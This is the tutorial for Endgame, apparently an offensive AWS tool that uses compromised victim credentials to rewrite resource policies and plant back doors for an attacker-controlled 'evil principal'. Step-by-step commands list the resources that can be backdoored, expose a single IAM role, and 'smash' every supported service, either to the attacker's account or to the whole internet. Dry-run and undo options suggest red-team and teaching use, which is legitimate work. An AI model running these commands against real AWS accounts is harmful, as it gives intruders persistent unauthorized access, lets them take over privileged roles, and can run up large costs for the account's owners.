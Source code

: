 # Tutorial

The prerequisite for an attacker running Endgame is they have access to AWS API credentials for the victim account which have privileges to update resource policies.

Endgame can run in two modes, `expose` or `smash`. The less-destructive `expose` mode is surgical, updating the resource policy on a single attacker-defined resource to include a back door to a principal they control (or the internet if they're mean).

`smash`, on the other hand, is more destructive (and louder). `smash` can run on a single service or all supported services. In either case, for each service it enumerates a list of resources in that region, reads the current resource policy on each, and applies a new policy which includes the "evil principal" the attacker has specified. The net effect of this is that depending on the privileges they have in the victim account, an attacker can insert dozens of back doors which are not controlled by the victim's IAM policies.

## Step 1: Setup

* First, authenticate to AWS CLI using credentials to the victim's account.

* Set the environment variables for `EVIL_PRINCIPAL` (required). Optionally, set the environment variables for `AWS_REGION` and `AWS_PROFILE`.

```bash
# Set `EVIL_PRINCIPAL` environment variable to the rogue IAM User or 
# Role that you want to give access to.
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

# If you don't supply these values, these will be the defaults.
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

## Step 2: Create Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you using [Terraform](https://www.terraform.io/intro/index.html). **Note: This will create real AWS infrastructure and will cost you money.**

```bash
# To create the demo infrastructure
make terraform-demo
```

## Step 3: List Victim Resources

You can use the `list-resources` command to list resources in the account that you can backdoor.

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3

# List all resources across services that can be backdoored
endgame list-resources --service all
```

## Step 4: Backdoor specific resources

* Use the `--dry-run` command first to test it without modifying anything:

```bash
endgame expose --service iam --name test-resource-exposure --dry-run
```

* To create the backdoor to that resource from your rogue account, run the following:

```bash
endgame expose --service iam --name test-resource-exposure
```

Example output:

![expose](images/add-myself-foreal.png)


## Step 5: Roll back changes

* If you want to atone for your sins (optional) you can use the `--undo` flag to roll back the changes.

```bash
endgame expose --service iam --name test-resource-exposure --undo
```

![expose undo](images/add-myself-undo.png)


## Step 6: Smash your AWS Account to Pieces

* To expose every exposable resource in your AWS account, run the following command.

> Warning: If you supply the argument `--evil-principal *` or the environment variable `EVIL_PRINCIPAL=*`, it will expose the account to the internet. If you do this, it is possible that an attacker could assume your privileged IAM roles, take over the other [supported resources](https://endgame.readthedocs.io/en/latest/#supported-backdoors) present in that account, or incur a massive bill. As such, you might want to set `--evil-principal` to your own AWS user/role in another account.

```bash
endgame smash --service all --dry-run
endgame smash --service all
endgame smash --service all --undo
```

## Step 7: Destroy Demo Infrastructure

* Now that you are done with the tutorial, don't forget to clean up the demo infrastructure.

```bash
# Destroy the demo infrastructure
make terraform-destroy
```